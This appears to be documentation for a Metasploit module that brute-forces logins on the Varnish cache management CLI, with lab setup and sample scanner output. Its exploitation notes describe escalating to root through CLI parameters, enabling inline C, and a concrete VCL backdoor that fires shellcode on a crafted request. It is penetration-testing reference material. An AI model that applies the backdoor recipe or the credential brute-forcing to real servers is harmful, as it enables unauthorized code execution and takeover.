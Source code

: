 ## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f
  
  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S <file>`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Exploitation Notes

These notes were taken from the original module in EDB, and can be used when developing a working remote exploit

```
- varnishd typically runs as root, forked as unpriv.
- 'param.show' lists configurable options.
- 'cli_timeout' is 60 seconds. param.set cli_timeout 99999 (?) if we want to inject payload into a client thread and avoid being killed.
- 'user' is nobody. param.set user root (may have to stop/start the child to activate)
- 'group' is nogroup. param.set group root (may have to stop/start the child to activate)
- (unless varnishd is launched with -r user,group (read-only) implemented in v4, which may make priv esc fail).
- vcc_unsafe_path is on. used to 'import ../../../../file' etc.
- vcc_allow_inline_c is off. param.set vcc_allow_inline_c on to enable code execution.
- code execution notes:

* quotes must be escaped \"
* \n is a newline
* C{ }C denotes raw C code.
* e.g. C{ unsigned char shellcode[] = \"\xcc\"; }C
* #import <stdio.h> etc must be "newline", i.e. C{ \n#include <stdlib.h>\n dosomething(); }C (without 2x \n, include statement will not interpret correctly).
* C{ asm(\"int3\"); }C can be used for inline assembly / shellcode.
* varnishd has it's own 'vcl' syntax. can't seem to inject C randomly - must fit VCL logic.
* example trigger for backdoor:

VCL server:
  vcl.inline foo "vcl 4.0;\nbackend b { . host = \"127.0.0.1\";  } sub vcl_recv { if (req.url ~ \"^/backd00r\") { C{ asm(\"int3\"); }C } } \n"
  vcl.use foo
  start

Attacker:
  telnet target 80
  GET /backd00r HTTP/1.1
  Host: 127.0.0.1

(... wait for child to execute debug trap INT3 / shellcode).

CLI protocol notes from website:

The CLI protocol used on the management/telnet interface is a strict request/response protocol, there are no unsolicited transmissions from the responding end.

Requests are whitespace separated tokens terminated by a newline (NL) character.

Tokens can be quoted with "..." and common backslash escape forms are accepted: (\n), (\r), (\t), (
), (\"), (\%03o) and (\x%02x)

The response consists of a header which can be read as fixed format or ASCII text:

    1-3      %03d      Response code
    4        ' '       Space
    5-12     %8d       Length of body
    13       \n        NL character.
Followed by the number of bytes announced by the header.

The Responsecode is numeric shorthand for the nature of the reaction, with the following values currently defined in include/cli.h:

enum cli_status_e {
        CLIS_SYNTAX     = 100,
        CLIS_UNKNOWN    = 101,
        CLIS_UNIMPL     = 102,
        CLIS_TOOFEW     = 104,
        CLIS_TOOMANY    = 105,
        CLIS_PARAM      = 106,
        CLIS_OK         = 200,
        CLIS_CANT       = 300,
        CLIS_COMMS      = 400,
        CLIS_CLOSE      = 500
};
```

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_login```
  4. Do: ```run```
  5. Find a valid login.

## Options

  **PASS_FILE**

  File which contains the password list to use.

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(varnish_cli_login) > 
    ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - Authentication Required
    [!] 192.168.2.85:6082     - No active DB -- Credential data will not be saved!
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: bad
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: good
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: secret
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
